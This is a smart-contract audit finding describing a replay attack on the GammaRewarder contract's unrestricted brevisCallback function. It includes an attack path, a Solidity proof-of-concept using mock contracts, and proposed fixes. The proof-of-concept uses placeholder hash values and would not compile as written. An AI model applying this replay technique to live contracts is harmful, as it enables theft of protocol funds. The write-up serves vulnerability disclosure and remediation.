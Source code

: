 Fresh Carbon Horse

High

# Unauthorized Reward Claims Through Brevis Callback Replay Attack

### Summary

The `GammaRewarder` contract exposes the `brevisCallback` function as external without proper caller authorization. This oversight allows malicious actors to replay previously validated proof data, enabling them to repeatedly claim rewards from existing distributions. Such a vulnerability can lead to unauthorized token distributions, undermining the protocol's integrity and resulting in significant financial losses.

### Root Cause

In `GammaRewarder.sol`, the `brevisCallback` function inherited from `BrevisApp.sol` lacks proper caller validation, allowing any external actor to call it with previously validated proof data:
https://github.com/sherlock-audit/2024-10-gamma-rewarder/blob/main/GammaRewarder/contracts/brevis/lib/BrevisApp.sol#L22-L26
Key Issues:

Lack of Caller Restriction:
The brevisCallback function does not verify that the caller is the trusted brevisProof contract. Consequently, any external entity can invoke this function.

Absence of Replay Protection:
There is no mechanism to track or invalidate used _requestIds, allowing the same proof data to be reused for multiple claims.

### Internal pre-conditions

1. A valid distribution must exist with available rewards
2. A legitimate user must have made at least one successful claim through the Brevis system, generating valid proof data
3. The vkHash used in the original proof must still be valid (not removed by owner)

### External pre-conditions

_No response_

### Attack Path

1. The attacker monitors the mempool for legitimate brevisCallback transactions
2. When a valid claim is made, the attacker captures:
The _requestId
The _appCircuitOutput data
3. The attacker deploys a malicious contract to replay these values
4. The attacker calls their contract's attack function multiple times to replay the same proof
5. Each successful replay will:
- Pass the vkHash validation
- Re-decode the same valid user and distribution data
- Pass all distribution parameter checks
- Result in additional token transfers to the claimed user address



### Impact

The protocol suffers unauthorized token distributions, potentially draining all rewards from active distributions. For each successful replay:
- The protocol loses totalRewardAmount tokens per replay
- The original claimer receives multiple rewards
- The integrity of the reward distribution system is compromised

### PoC

an example of this :
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./GammaRewarder.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// Mock ERC20 for testing
contract MockToken is ERC20 {
    constructor() ERC20("Mock", "MCK") {
        _mint(msg.sender, 1000000 * 10**18);
    }
}

// Mock Brevis Proof contract
contract MockBrevisProof is IBrevisProof {
    bytes32 public constant APP_COMMIT_HASH = 0x123abc...;  // matches keccak256 of our crafted output
    bytes32 public constant APP_VK_HASH = 0x456def...;      // matches whitelisted vk hash

    function getProofAppData(bytes32) external pure returns (bytes32, bytes32) {
        return (APP_COMMIT_HASH, APP_VK_HASH);
    }

    function validateRequest(bytes32, uint64, Brevis.ExtractInfos memory) external pure {}
}

contract ReplayAttackTest {
    GammaRewarder public rewarder;
    MockToken public rewardToken;
    MockBrevisProof public brevisProof;
    
    address public user1 = address(0x1);
    address public user2 = address(0x2);
    
    constructor() {
        // Deploy mock contracts
        rewardToken = new MockToken();
        brevisProof = new MockBrevisProof();
        rewarder = new GammaRewarder(address(brevisProof), address(this));
        
        // Setup rewarder contract
        rewarder.setBlocksPerEpoch(100);
        rewarder.setProtocolFee(1e8); // 10% fee
        rewarder.toggleTokenWhitelist(address(rewardToken));
    }
    
    function setupDistribution() public {
        uint64 startBlock = uint64(block.number) + 100;
        uint64 endBlock = startBlock + 1000; // 10 epochs
        uint256 amount = 1000 * 10**18;
        
        // Approve and create distribution
        rewardToken.approve(address(rewarder), amount);
        rewarder.createDistribution(
            address(0x123), // hypervisor
            address(rewardToken),
            amount,
            startBlock,
            endBlock
        );
    }

    function executeReplayAttack() public {
        // Craft appCircuitOutput to match known valid proof data
        bytes memory appCircuitOutput = abi.encodePacked(
            user1,                           // userAddress (20 bytes)
            address(0x123),                  // lpTokenAddress (20 bytes)
            uint64(0),                       // padding (8 bytes)
            uint64(block.number + 100),      // startBlock (8 bytes)
            uint64(block.number + 200),      // endBlock (8 bytes)
            bytes32(uint256(0)),             // distributionId (32 bytes)
            address(rewardToken),            // rewardTokenAddress (20 bytes)
            uint248(100 * 10**18),          // distributionAmountPerEpoch (31 bytes)
            uint248(100 * 10**18)           // totalRewardAmount (31 bytes)
        );

        // Call brevisCallback multiple times with same proof data
        rewarder.brevisCallback(bytes32(uint256(1)), appCircuitOutput);
        
        // Verify user1 got rewards multiple times
        uint256 balance = rewardToken.balanceOf(user1);
        require(balance > 0, "Attack failed: No rewards claimed");
        
        // Try another replay
        rewarder.brevisCallback(bytes32(uint256(1)), appCircuitOutput);
        
        uint256 newBalance = rewardToken.balanceOf(user1);
        require(newBalance > balance, "Attack failed: Replay didn't work");
    }
}
```


### Mitigation

Three potential mitigations:

1. Add caller validation in brevisCallback
```solidity
function brevisCallback(bytes32 _requestId, bytes calldata _appCircuitOutput) external {
    require(msg.sender == address(brevisProof), "Unauthorized callback");
    // ... rest of the function
}
```
2. Track used request IDs
```solidity
mapping(bytes32 => bool) public usedRequestIds;

function brevisCallback(bytes32 _requestId, bytes calldata _appCircuitOutput) external {
    require(!usedRequestIds[_requestId], "Request ID already used");
    usedRequestIds[_requestId] = true;
    // ... rest of the function
}
```
3. Add proof expiration timestamps
```solidity
function handleProofResult(bytes32 _requestId, bytes32 _vkHash, bytes calldata _appCircuitOutput) internal override {
    require(block.timestamp <= extractExpirationTime(_appCircuitOutput), "Proof expired");
    // ... rest of the function
}
```